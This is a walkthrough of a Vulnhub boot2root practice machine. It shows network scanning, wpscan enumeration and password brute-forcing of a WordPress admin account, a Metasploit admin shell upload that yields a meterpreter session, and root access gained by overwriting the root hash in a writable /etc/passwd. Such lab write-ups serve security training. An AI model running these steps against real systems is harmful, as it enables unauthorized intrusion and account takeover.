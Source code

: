 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | wordpress hacking |
|End Goal: |	Get root |
|Tool: | nmap, nikto, wpscan, metasploit  |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - Nikto scan
  - wpscan
- Exploit
  - Wordpress Exploit
  - Privilege escalation
  - Get root
## Walkthrough
### Scanning
Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)

Nothing here. Scan Web with nikto

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/547d2d58-5288-4b85-95ea-94ab2e84627a)

We find a interestin folder is **secret**. When check in URL, I find wordpress login page

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/bc174807-5783-45b0-b288-fa31ccc2dce2)

### Enumeration

The next step is to enumerate any potential users and vulnerabilities in the site by using wpscan:

```
wpscan --url http://192.168.44.130/secret -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

I find a user that is **admin**. Let's continue to bruteforce the password of this user by ussing wpscan.

```
wpscan --url http://vtcsec/secret/ -U admin -P  /usr/share/wordlists/dirb/common.txt

```
I find the password for admin that is admin

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/950cc8d0-d279-491c-81b8-f3a8ca5aff7d)

Log in with this credential

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/990c1ffb-637d-4f7c-9f92-e7a1876699fd)


### Exploit
- Upload php reverse shell into wordpress page. Metasploit can be used to generate a plugin which will automationally upload a payload and give us shell. Start metasploit and set options that are necessary.

```
msf6 > search wp admin shell
msf6 > use 3
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.44.130
RHOST => 192.168.44.130
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /secret
TARGETURI => /secret
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/4810e633-4fa2-4ee1-9e7c-5bf4d8e5b4ed)

The exploit should executed successfully and open a meterpreter session. Running a getuid command from this session (or id from a shell) shows we currently have access as the user: www-data. Therefore, some additional work is required to obtain root access.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/c3e57682-80ab-42a8-b502-329d6acd1b83)

### Privilege escalation
To check for any potential misconfigurations that could be lead to privilege escalatio, I use **unix-privesc-check** to scan.

Set excure permision for unin-privesc_check and run script.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/06bc75c5-77c1-434d-9665-7244afa11e65)

From the result, we can edit file /etc/passwd. Download /etc/passwd to local macline.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/12f6648b-7899-465a-83f7-2c484ca9c4ee)

Then, from a local terminal, we can use openssl to generate a new hashed password:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/efd82140-dbb5-4e0d-b797-a72d57a633c5)

Finally, we can edit the passwd file using vim and replace the x value for the root user with the hashed password from the above command:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/16144723-c017-4abd-9943-7e2f58409fcd)

The modified passwd file can then be uploaded to the target via the meterpreter session:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/aa86b3a8-0a87-4e76-ac58-dccea620215e)

Using the the shell command in meterpreter this can then be tranformed into an interactive bash shell via Python:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/5d530681-ea87-4d61-b955-d9f61e7f4b97)

Finally, we can su to the root user using the new password generated above:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/40f1c099-6930-4d7d-96c8-d7214c5d5de2)

Checking information of current user:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/8802fb73-fc59-4fff-b6bb-c78afa10db90)

So we get root of this machine.


